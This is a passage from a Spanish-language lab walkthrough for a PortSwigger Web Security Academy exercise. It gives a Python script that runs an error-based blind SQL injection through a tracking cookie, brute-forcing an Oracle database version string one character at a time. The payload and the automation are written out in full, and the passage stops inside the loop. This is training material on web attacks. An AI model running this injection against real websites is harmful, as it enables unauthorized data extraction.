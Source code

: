 ```
# python print_characters.py
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~ 	
```

Debido a que el `Cluster bomb` de `Burpsuite` no es tan cómodo usarlo, vamos a usar `python` para que nos `dumpee` el output completo de la instrucción `version()`. Lo primero que debemos hacer es instalar `pwntools`

```
# sudo apt-get update
# sudo apt-get install -y python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
# python3 -m pip install --upgrade pip --break-system-packages
# python3 -m pip install --upgrade pwntools --break-system-packages
```

He creado este `script` en `python` el cual nos permitirá `bruteforcear` carácter por carácter la `versión` de `base` de `datos`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a5e00cf03a81efd83b2324e003400fd.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    p2 = log.progress("Output")

    with open("output.txt", "w") as f:
        for position in range(1, 226):
            for character in characters:
                cookies = {
                    'TrackingId': "C5PhDxyLUgYK5wqP'||(select case when (substr((select listagg(banner, ' ') within group (order by banner) from v$version), %d, 1) = '%s') then to_char(1/0) else null end from dual)||'" % (position, character),
                    'session': "BMvtH2Wf9tGi7WdeVufBPzLwygoHxxPD"
                }

                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)

                if r.status_code == 500:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break
```